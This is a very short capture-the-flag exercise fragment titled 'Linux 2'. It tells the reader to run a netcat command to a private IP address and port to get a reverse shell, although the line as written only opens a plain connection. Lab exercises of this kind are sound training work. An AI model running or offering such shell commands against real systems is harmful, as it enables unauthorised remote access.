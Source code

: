 #Linux 2
##Can you capture the flag?

##Execute the following command to obtain a reverse shell on your local machine.

######nc 192.168.10.7 9999
